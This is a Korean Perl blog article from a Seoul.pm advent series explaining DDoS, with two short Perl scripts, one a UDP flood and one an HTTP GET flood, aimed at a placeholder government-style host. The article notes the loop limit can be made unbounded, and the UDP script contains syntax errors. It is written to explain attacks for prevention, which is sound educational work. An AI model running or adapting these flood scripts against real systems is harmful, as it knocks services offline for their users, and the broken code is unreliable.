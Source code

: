 Title:    DDoS가 무엇인가요?
Package:  Seoul.pm
Category: perl
Category: Seoul.pm
Author:   keedi

저자
-----

[@keedi][twitter-keedi] - Seoul.pm 리더, Perl덕후,
[거침없이 배우는 펄][yes24-4433208]의 공동 역자, keedi.k _at_ gmail.com


시작하며
---------

가끔 특정 사이트가 DDoS 공격으로 인해 서비스 장애가 일어났다는 기사를 접하기도 합니다.
[DDoS][wiki-ddos]는 DoS(서비스 거부 공격, Denial of Service attack)의 기법 중 하나인
분산 서비스 거부 공격(Distributed DoS, DDoS, 디도스)입니다.
여러 시스템을 이용해 공격을 시도하며 다양한 방법을 통해 동시에 공격하는 것으로,
서버의 네트워크 및 전산 자원을 빠르게 고갈시켜 네트워크가 먹통이 되게 만든다거나
원활한 서비스 이용이 불가능하게 만드는 것이 핵심입니다.

![일반인(?)의 흔한 DDoS 공격][img-1-resize]
*그림 1.* 일반인(?)의 흔한 DDoS 공격 ([원본][img-1] / [출처][home-raiseup-ddos])

특별히 취약점을 공략하거나, 침투를 해야하는 것이 아니기 때문에,
공격을 시도할 여러 시스템을 확보하는 것이 관건이지 공격 자체가 기술적으로 어려운 것은 아닙니다.
대표적으로 특정 웹 사이트에 접속한 뒤 브라우저의 갱신 버튼인 `F5`를 지속적으로
연타하는 것 역시 여러 시스템에서 행한다면 일종의 DDoS 공격으로 볼 수 있습니다.
그럼에도 불구하고 효율성의 측면에서 대부분의 공격자들은 간단한 스크립트를 작성해서 공격을 시도하는 것 같습니다.
DDoS라... 이름은 그럴 듯해서 엄청난 것 같지만 과연 이런 스크립트에는 이론적으로 어떤 기법이 들어 있을까요?


준비물
-------

필요한 모듈은 다음과 같습니다.
두 모듈 모두 따로 설치하지 않아도 Perl 5와 같이 배포되는 기본 모듈입니다.

- [CPAN의 Socket 모듈][cpan-socket]
- [CPAN의 IO::Socket 모듈][cpan-io-socket]

직접 [CPAN][cpan]을 이용해서 설치한다면 다음 명령을 이용해서 모듈을 설치합니다.

    #!bash
    $ sudo cpan \
        IO::Socket \
        Socket

사용자 계정으로 모듈을 설치하는 방법을 정확하게 알고 있거나
[perlbrew][home-perlbrew]를 이용해서 자신만의 Perl을 사용하고 있다면
다음 명령을 이용해서 모듈을 설치합니다.

    #!bash
    $ cpan \
        IO::Socket \
        Socket


UDP 범람
---------

UDP 범람(flooding)의 경우 [SYNFlood][wiki-synflood] 등의 기법과는 달리 빠른 시간 내에
네트워크 대역폭을 소모 시키는 것이 목적으로 가장 흔하게 사용하는 DDoS 공격 중 하나일 것입니다.
UDP의 특성상 작고 빠른 요청이 가능하기 때문에 `Socket` 기본 모듈만 사용해도
비교적 간단히 스크립트를 작성할 수 있습니다.

    #!perl
    use utf8;
    use strict;
    use warnings;
    use feature qw( say );

    use Socket;

    my $host = "www.fresident.go.xx";
    my $port = 80;
    my $max = 10;

    my @ips = gethostbyname($host) or die "cannot resolve $host: $!\n";
    @ips = map { inet_ntoa($_) } @ips[4 .. $#ips];
    say for @ips;

    socket( my $sock, PF_INET, SOCK_DGRAM, 17 )
        or die "socket: $!\n";

    my $count = 0;
    while ( $count < $max ) {
        my @chars = ( "0" .. "9", "a" .. "z", "A" .. "Z" );
        my $str = q{};
        $str .= $chars[ int( rand( scalar(@chars) ) ) ] for 1 ..1024;
        $size = int( rand( 1024 - 64 ) ) + 64;

        my $packet = pack "a$size", $str;

        for my $ip (@ips) {
            my $iaddr = inet_aton("$ip")
                or die "cannot resolve ip: $ip\n";
            printf "$count: $ip\n", ++$count;
            send( $sock, $packet, 0, pack_sockaddr_in( $port, $iaddr ) );
        }
    );

간단하죠? 우선 `gethostbyname()` 함수를 이용해 도메인 네임을 IP로 풀이를 합니다.
사이트에 따라 다르겠지만 부하 분산이 되어있는 대부분의 사이트는
여러 서버로 구성되었기 때문에 IP 목록을 확보할 수 있습니다.
이후 `socket()` 함수를 이용해서 UDP 연결용 소켓을 생성합니다.
전송할 자료는 특별히 의미가 없으므로 64 ~ 1024개의 랜덤 문자열을 생성하고
이를 `pack()`을 이용해 적절히 바이너리 형식으로 전환합니다.
이후 IP 주소를 `inet_aton()` 함수를 이용해서 소켓에서 사용할 수 있게 변경하고,
`send()` 함수로 소켓에 랜덤 문자열을 날려버리면 끝입니다.
마지막으로 이런 요청을 몇 번이나 수행할지는 `$max` 변수로 조정하겠죠.


HTTP 범람
----------

HTTP 범람(flooding)은 말그대로 HTTP 프로토콜을 이용해서 요청을 보내는 것입니다.
솔직히 여러번 요청한다는 점을 제외한다면 평범한 HTTP 요청과 다를바 없습니다.
이번에는 `IO::Socket` 모듈을 사용해볼까요?

    #!perl
    use utf8;
    use strict;
    use warnings;

    use IO::Socket;

    my $host = "www.fresident.go.xx:80";
    my $max = 10;

    my $count = 0;
    while ( $count < $max ) {
        my $sock = IO::Socket::INET->new(
            Proto    => "tcp",
            PeerAddr => $host,
        ) or die "cannot bind : $!\n";

        print $sock "GET /?$_ HTTP/1.0\r\n\r\n";

        my $res = <$sock>;
        printf "$count: $res", ++$count;

        close($sock);
    }

HTTP 요청을 도와주는 [CPAN][cpan] 모듈은 무척 많지만,
단순히 첫 페이지 정도 요청해서 응답 코드를 확인하는 것이 전부라면
굳이 [LWP 모듈][cpan-lwp]이나 [HTTP::Tiny 모듈][cpan-http-tiny]까지
쓰지 않고 `Socket` 또는 `IO::Socket` 모듈을 쓰는 것으로도 충분합니다.
특별히 DDoS 공격이 아니더라도, 구축한 시스템의 성능을 파악하거나,
설치한 웹방화벽이 잘 동작하는지 확인하는 용도로도 유용하게 사용할 수 있습니다.
필요하다면 `$max` 값을 충분히 큰 값으로 설정한다던가, 또는 무한 반복문 형태로 바꿀 수도 있겠죠.


정리하며
---------

간단히 DDoS 공격 스크립트 그 자체에 대해서 알아보았습니다.
아무래도 어떻게 공격하는지 알아야 어떤식으로 예방해야 할지에도 도움이 될테구요.
꽤 거창해보였는데 막상 코드를 들여다보니 김빠지죠?
DDoS 요청도 프로토콜 상의 특징을 이용하는 만큼 여러가지 기법이 더 있겠지만
큰 틀에서 봤을때 짧은 시간에 감당할 수 없는 요청을 보내는 것이 핵심이다보니
막상 요청을 보내는 부분 자체는 비교적 간단한 편입니다.
그렇기 때문에 해당 요청이 악의를 가진 것인지 평범한 요청인지 구분하기 어려운 것이 사실이기도 하구요.
DDoS의 경우 요청 자체보다는 어떻게 하면 요청을 보낼 수 있는 네트워크 자원을 확보하냐는 것이 중요하기도 합니다.
물론 DDoS 스크립트도 프로그램이다보니 어떻게하면 더 효율적으로 짧은 시간에 많은 요청을
생성하는지 고민할테고, 이를 위해 쓰레드를 사용한다던가, 티나지 않게 시스템에서 상주하면서
필요할때 동작하게 한다던가 등도 고민할 것 같군요.
아! 그리고 어찌됐든 DDoS 공격도 어느정도 위법하게 보는 시각이 있으니
이런 류의 스크립트를 함부로 구동하는 것은 법적으로 매우 위험하다는 점 잊지 마세요. :-)

Enjoy Your Perl! ;-)

P.S.

브라우저에서 `F5`를 누르는 행동을 범죄라고 보기는 좀 어려울 것 같긴 합니다만...
변호사가 아니라 잘은 모르겠네요. :-)

_EOT_


[img-1]:                    2016-12-02-1.jpg

[img-1-resize]:             2016-12-02-1_r.jpg

[cpan-http-tiny]:           https://metacpan.org/pod/HTTP::Tiny
[cpan-io-socket]:           https://metacpan.org/pod/IO::Socket
[cpan-lwp]:                 https://metacpan.org/pod/LWP
[cpan-socket]:              https://metacpan.org/pod/Socket
[cpan]:                     http://www.cpan.org/
[home-perlbrew]:            http://perlbrew.pl/
[home-raiseup-ddos]:        https://www.facebook.com/raiseup1114/photos/a.953404921396900.1073741827.953396081397784/1297833713620684/?type=3
[twitter-keedi]:            http://twitter.com/#!/keedi
[wiki-ddos]:                https://en.wikipedia.org/wiki/Denial-of-service_attack#DDoS_extortion
[wiki-synflood]:            https://en.wikipedia.org/wiki/SYN_flood
[yes24-4433208]:            http://www.yes24.com/24/goods/4433208

